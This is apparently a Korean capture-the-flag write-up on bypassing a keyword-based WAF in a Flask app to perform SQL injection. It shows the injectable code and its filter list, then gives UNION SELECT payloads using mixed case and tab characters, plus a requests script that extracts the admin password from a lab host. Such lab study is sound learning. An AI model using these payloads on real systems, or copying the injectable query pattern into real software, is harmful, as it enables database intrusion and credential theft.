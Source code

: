 ```yaml
---
title: "[2025-07-16] SQL injection Bypass WAF"
excerpt: "Bypass WAF"

categories:
  - Problem
tags:
  - [Bypass WAF]

permalink: /Problem/[2025-07-16] SQL injection Bypass WAF/

toc: true
toc_sticky: true

date: 2025-07-16
last_modified_at: 2025-07-16
---
```


## 🦥 본문

```sql
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False

@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template

if __name__ == '__main__':
    app.run(host='0.0.0.0')

```

데이터베이스를 보니 column은 idx, uid, upw로 구성되어 있다.

guest를 입력하면 result[1]인 guest 값만 출력되는 것을 볼 수 있다. admin의 비밀번호가 FLAG인데, admin 값은 필터링 되어 있었다 → ADmin 같은 대소문자 혼용으로 필터링 우회가 가능하다

공백도 필터링이 되어 있었다. 주석으로 공백을 피하려 했으나 주석 역시 필터링이 되어 있었다. 탭을 의미하는 /t → %09를 통해 필터링 우회가 가능하다

또한 UNION을 사용할 거면 앞의 구문과 column 수가 맞아야 한다. 

```sql
UNION SELECT null, upw, null, From user Where uid = 'admiN); 
```

위와 같은 코드로 보내야 한다.
'%09Union%09Select%09null,upw,null%09From%09user%09where%09uid=\"Admin\"%23을 사이트의 form을 통해 보냈는 데 안되는 거다..

### 풀이

```sql
'%09Union%09Select%09null,upw,null%09From%09user%09where%09uid=\"Admin\"%23
```

을 form을 통해 보내게 되면 이중 인코딩 처리가 되어서 %09가 %2509가 된다. 

```sql
import requests

url = "http://host8.dreamhack.games:16809/"
params = {
    "uid": "'\tUnion\tSelect\tnull,upw,null\tFrom\tuser\twhere\tuid=\"Admin\"#"
}

response = requests.get(url, params=params)
print(response.text)

```

을 통해 보내야 원하는 결과를 얻을 수 있다.

하… 이것도 모르고 똑같은 코드에 시간 엄청 썼다…